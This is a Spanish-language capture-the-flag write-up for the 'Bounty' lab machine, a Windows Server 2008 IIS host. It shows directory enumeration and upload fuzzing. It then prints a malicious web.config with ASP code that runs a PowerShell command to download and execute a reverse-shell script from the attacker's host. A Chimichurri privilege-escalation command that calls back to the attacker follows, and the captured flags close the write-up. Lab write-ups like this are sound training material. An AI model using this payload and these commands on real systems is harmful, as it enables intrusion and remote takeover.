


Writeups para CTF's
La maquina Bounty es un equipo Windows Server 2008 que permite cargar archivos maliciosos ocacionando la ejecucion remota de comandos.
Informacion Basica
Al realizar un escaneo sobre el equipo se puede detectar un unico servicio en ejecucion sobre el puerto 80
Inspeccionando el servicio HTTP observar una pagina web montada en un servidor IIS
URL: http://10.10.10.93/
Explorando el servicio web con el uso de gobuster podemos encontrar un subdirectorio llamado transfer.aspx
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -x php,asp,aspx,html,txt -o gobusterScan.txt -t 200
Dentro del diretorio encontrado se identifica un formulario que permite la carga de archivos al servidor remoto
http://10.10.10.93/transfer.aspx
Con el uso de Burpsuite se realiza un fuzzing a las extenciones mas comunes de archivos para determiner que tipo de archivos se permiten cargar, Una vez terminado el escaneo se detectan que las extensiones validas son .jpg y .config
Ya determinadas las extenciones se procede a ejecutar la prueba de concepto "rce-by-uploading-a-web-config"
Datos Exploit:
EL siguiente codigo ejecutara un comando a nivel sistema operativo
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd /c Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18:8000/IP.ps1') ")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>En el codigo se le indica que descargue un archivio llamado IP.ps1 del servidor atacante el cual se ejecutara generando una shell reversa
cmd /c Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18:8000/IP.ps1')
Antes de cargar el codigo malicioso se requiere tener activo el servicor web en el equipo atante con el
arcivo IP.ps1
que generar la conexion reversa.
Al cargar el archivo "web.config" con el codigo malicioso se ejecuta el comando que realizara la
descarga del archivo "IP.ps1"
Servidor web atacante
python3 -m http.serverconexion obtenida
Una vez dentro del equipo se raliza una validaicon rapida del equipo a si como de los permisos del
usuario con el que se obtuvo
la conexion remota
Revision del sistema
systeminfoRevision de permisos
whoami /privLas revisiones basicas sobre el sistema operativo remoto muestran que el equipo no cuenta con parches instalados y que se tiene el privilegio "SeImpersonatePrivilege" activado ,este privilegio permite suplantar un cliente después de la autenticación
Usando el exploit "ms10-059" tambien conocido como chimicurri podemos obtener abusar del privilegio "SeImpersonatePrivilege" y obtener una shell reversa al equipo atacante con privilegios de "NT Authority\System"
C:\Windows\Temp\Chimichurri.exe 10.10.14.18 6666User:
type merlin\Desktop\user.txt
e29ad89891462e0b09741e3082f44a2fAdministrador:
type Administrator\Desktop\root.txt
c837f7b699feef5475a0c079f9d4f5ea